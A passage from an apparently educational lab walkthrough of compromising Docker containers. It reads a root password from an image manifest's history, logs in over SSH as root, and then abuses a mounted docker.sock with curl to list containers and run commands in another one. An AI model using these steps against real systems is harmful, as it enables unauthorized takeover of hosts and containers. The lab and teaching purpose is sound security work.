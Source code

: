 A Manifest file will be downloaded. On checking you could see that there is a history section in the file which contains history of all the commands which were ran when the image was being built. On careful observation one could see that it is exposing a string named SECRET, whose value is being set as the password of root user in the very next command. In further commands, the root user is being enabled for login on SSH server which is running on port 22. As an attacker, we got the hint that the value of SECRET is the password for root user on SSH. Also port 22 was discovered during initial port scan.

5. Try logging into SSH on 192.168.2.44 (Ubuntu) using root user and you would get into the system as a root user.

	`ssh root@192.168.2.44`
	
However you would see that the system which we have just compromised is not actually Ubuntu system. It is one of the docker container running on that Ubuntu system. Since we got the password from the manifest file of my-ubuntu:vuln image, so we are inside the container of my-ubuntu:vuln. Also it is obvious by looking at the hostname of the system that we are inside some docker container.

So, Container C1 is compromised.

---

#### B. Comprimising Container C2:

#### Background: 

*Container C1 is already compromised which has docker.sock file mounted at /var/run/docker.sock. This can leveraged to communicate with docker engine and get access to other running containers.*

*To communicate with Docker Engine using docker.sock, 'docker' command line tool should be installed however we are assuming that installation for 'docker' command line is blocked due to security reasons. So, we will be using Unix socket to communicate with Docker Engine.*

#### Steps:

1. List all docker images:

	`curl -s --unix-socket /var/run/docker.sock -X GET http://localhost/images/json | jq`

2. List all the running container:

	`curl -s --unix-socket /var/run/docker.sock -X GET http://localhost/containers/json | jq`
	
3. Choose the container id on which the command would be ran. (say 43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b)


4. Now, create exec instance from running container, basically, create an instance to run the command on the container.

	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/containers/43de4ed6fa5df1e1f06432df00f6070fb8b6213992b84a7ae2646130263cbd4b/exec -H "Content-Type: application/json" -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "DetachKeys": "ctrl-p,ctrl-q", "Tty": false, "Cmd": ["date"] }'`
	
	Copy the ExecID and paste in the next command.
	
	`curl --unix-socket /var/run/docker.sock -X POST http://localhost/v1.41/exec/<ExecID>/start -H "Content-Type: application/json" -d '{ "Detach": false, "Tty": false }'`
